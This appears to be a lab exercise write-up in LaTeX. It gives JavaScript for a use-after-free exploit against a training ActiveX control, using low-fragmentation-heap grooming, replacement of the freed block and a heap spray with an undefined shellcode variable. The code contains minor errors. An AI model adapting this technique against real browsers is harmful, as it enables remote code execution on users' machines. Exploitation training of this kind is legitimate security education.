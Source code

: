 \documentclass[letterpaper,10pt,titlepage,draftclsnofoot,onecolumn]{IEEEtran}
\begin{document}
After I figured out the HeapFree address, I must disable the PageHeap and Usermode stack to activate the low-fragmentation heap feature. 
Also, I need to do some coding to make the heap exploitation happened. Here's how the javascript code looks like: 

\begin{lstlisting}
function L3Exercise1() {
	
	// STEP 1

	// I have to define the replacement block here.
	replacementBlock = "\u4141\u4141\u4141\u4141\u4141\u4141\u4141
	\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141
	\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141
	\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141
	\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141
	\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141
	\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141
	\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141\u4141"
	
	// STEP 2 - This step enable LFH

	// I have to define the appropriate size 
	enableLFH = new Array(20);

	for (i=0; i<enableLFH.length; i++) {
		enableLFH[i] = document.createElement("param");
		enableLFH[i].name = replacementBlock;
	}

	var objPtr = FSExploitme.GetClassy();

	// STEP 3A - Prepare a replacement block

	replacements = new Array(100);

	for (i=0; i <replacements.length; i++) {
		replacements[i] = document.createElement("param");
		// I'm preparing the replacement block
		replacements[i].name = replacementBlock;
	}

	FSExploitMe.KillClassy(objPtr);

	// STEP 3B - Replace the freed block

	// I have to uncomment these few lines
	CollectGarbage();
	for (i=0; i<replacements.length; i++) {
		replacements[i].name = replacementBlock;
	}

	// STEP 4 - Call the HeapSpray();

	// I'm calling the HeapSpray
	L3HeapSpray("\u0028\u0a0a" + shellcode)''

	FSExploitMe.BeClass(objPtr);
}

\end{lstlisting}
\end{document}

